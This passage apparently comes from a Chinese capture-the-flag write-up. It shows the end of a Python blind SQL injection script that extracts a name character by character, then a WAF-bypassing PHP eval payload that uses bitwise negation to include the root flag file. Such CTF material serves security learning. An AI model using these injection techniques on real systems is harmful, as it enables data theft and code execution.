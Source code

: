 ```
            if '>密码错误<' in r.text:
                if top - 1 == bot:
                    name += chr(top)
                    print(name)
                    break
                bot = mid(bot, top)
            else:
                if top - 1 == bot:
                    name += chr(bot)
                    print(name)
                    break
                top = mid(bot, top)
if __name__ == '__main__':
    sqli()
```

登录，来到第二关；

是一个eval函数，

```
eval($command."=false");
```

waf很强，可以用取反直接include根目录的flag：

```
command=?><?=include~%D0%99%93%9E%98?>
```

